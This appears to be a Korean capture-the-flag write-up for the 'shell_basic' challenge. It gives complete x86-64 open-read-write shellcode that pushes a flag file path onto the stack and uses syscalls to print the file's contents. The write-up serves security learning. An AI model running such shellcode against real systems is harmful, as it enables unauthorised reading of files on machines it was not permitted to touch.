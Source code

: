 서버의 특정 위치에 있는 파일을 접근하면 되는 orw 문제이며, flag의 위치는 `/home/shell_basic/flag_name_is_loooooong` 이므로 두 가지 정보를 잘 조합해서 해결할 수 있음


# exploit1
쉘코드를 직접 작성하여 해결하는 방법

먼저 flag 위치를 리틀엔디언으로 바꿔주면 다음과 같음
`676E6F6F6F6F6F6F6C5F73695F656D616E5F67616C662F63697361625F6C6C6568732F656D6F682F`
`gnooooool_si_eman_galf/cisab_llehs/emoh/`

해당 정보를 이용해 orw 쉘코드를 작성해보면 다음과 같음
```
xor rax, rax
push rax
mov rax, 0x676E6F6F6F6F6F6F
push rax
mov rax, 0x6C5F73695F656D61
push rax
mov rax, 0x6E5F67616C662F63
push rax
mov rax, 0x697361625F6C6C65
push rax
mov rax, 0x68732F656D6F682F
push rax

mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall

mov rdi, rax
mov rsi, rsp
sub rsi, 0x30
mov rdx, 0x30
mov rax, 0x0
syscall

mov rdi, 1
mov rax, 0x1
syscall

xor rdi, rdi
mov rax, 0x3c
syscall
```

이 때, `push 0x676E6F6F6F6F6F6F` 같은 형태가 아닌
```
push rax
mov rax, 0x676E6F6F6F6F6F6F
```
이 형태를 사용하는 이유는 rax 레지스터는 64비트까지 로드할 수 있지만 `Immediate Values`는 32비트까지만 지원되므로 아래와 같은 방식을 사용해야 함
